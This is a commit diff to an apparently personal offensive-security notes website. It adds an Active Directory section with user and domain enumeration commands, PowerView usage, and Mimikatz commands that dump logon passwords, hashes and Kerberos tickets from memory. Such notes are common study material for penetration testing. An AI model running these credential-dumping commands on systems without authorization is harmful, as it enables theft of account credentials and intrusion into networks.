

Before and after one commit to JeffGThompson/offsec-notes.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 9563-10372 px from the top of the page. Before the commit the page ends 9828 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Adding changes for the day

```diff
--- a/index.html
+++ b/index.html
@@ -470,8 +470,44 @@ rpcclient $> exit
 <p id="info"></p>
 <p id="codebox"></p>
 
+<hr>
 
-Setup Port Forwarding - Option 1
+<h1>Active Directory</h1>
+
+<p id="info"></p>
+<p id="codebox"><b>Get local accounts</b><br>
+    net user<br>
+    <b>Get domain accounts</b><br>
+    net user /domain<br>
+
+
+</p>
+
+
+<p id="info">Get Domain Name for the currently logged in user</p>
+<p id="codebox"> PS> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
+</p>
+
+
+<p id="info">Get Currently Logged on Users</p>
+<p id="codebox">
+    Import-Module .\PowerView.ps1 <br>
+    Get-NetLoggedon -ComputerName $TARGET #Target doesn't have to be machine we're currently on <br>
+
+<p id="info">Mimikatz</p>
+<p id="codebox">
+log hash.txt<br>
+privilege::debug<br>
+sekurlsa::logonpasswords<br>
+sekurlsa::tickets<br>
+kerberos::list /export
+    </p>
+
+
+</p>
+
+<p id="info"></p>
+<p id="codebox"></p>
 
 
 
```
Also changed, not shown: 2 other files.
